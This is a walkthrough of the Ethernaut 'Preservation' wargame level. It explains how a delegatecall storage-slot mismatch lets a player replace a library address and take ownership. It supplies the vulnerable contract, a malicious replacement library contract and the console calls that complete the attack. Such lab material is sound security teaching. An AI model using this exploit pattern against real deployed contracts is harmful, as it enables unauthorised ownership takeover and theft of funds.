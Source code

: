 # Level 16: Preservation

This is the level 16 of OpenZeppelin [Ethernaut](https://ethernaut.openzeppelin.com/) web3/solidity based game.

## Pre-requisites
- [Layout of state variables](https://docs.soliditylang.org/en/v0.8.11/internals/layout_in_storage.html#layout-of-state-variables-in-storage) in Storage
- Context preserving nature of [Delegatecall](https://medium.com/coinmonks/delegatecall-calling-another-contract-function-in-solidity-b579f804178c) function

## Hack
Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

`player` has to claim the ownership of `Preservation`.

The vulnerability `Preservation` contract comes from the fact that its storage layout is NOT parallel or complementing to that of `LibraryContract` whose method the `Preservation` is calling using `delegatecall`.

Since `delegatecall` is context-preserving any write would alter the storage of `Preservation`, and NOT `LibraryContract`.

The call to `setTime` of `LibraryContract` is _supposed_ to change `storedTime` (slot 3) in `Preservation` but instead it would write to `timeZone1Library` (slot 0). This is because `storeTime` of `LibraryContract` is at slot 0 and the corresponding slot 0 storage at `Preservation` is `timeZone1Library`.

```
       |  LibraryContract         Preservation
--------------------------------------------------
slot 0 |     storedTime   <-   timeZone1Library
slot 1 |        _              timeZone2Library
slot 2 |        _                   owner
slot 3 |        _                 storedTime
```

This information can be used to alter `timeZone1Library` address to a malicious contract - `EvilLibraryContract`. So that calls to `setTime` is executed in a `EvilLibraryContract`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract EvilLibraryContract {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function setTime(uint _time) public {
        owner = msg.sender;
    }
}
```

Note that storage layout of `EvilLibraryContract` is complementing to `Preservation` so that proper state variables are changed in `Preservation` when any storage changes. Moreover, `setTime` contains malicious code that changes ownership to `msg.sender` (which would the `player`).

Let's start the attack!

First deploy `EvilLibraryContract` and copy it's address. Then alter the `timeZone1Library` in `Preservation` by:
```javascript
await contract.setFirstTime(<evil-library-contract-address>)
```
(a 32 byte `uint` type can accommodate 20 byte `address` value)

Now the `delegatecall` in `setFirstTime` would execute `setTime` of `EvilLibraryContract`, instead of `LibraryContract`.

Call `setFirstTime` with any `uint` param:
```javascript
await contract.setFirstTime(1)
```

Bang! `player` (`msg.sender`) is  set as `owner` through `setTime` of `EvilLibraryContract`.

Verify by:
```javascript
await contract.owner() === player

// Output: true
```

Level cracked!


_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/heyNvN)_ 🙏
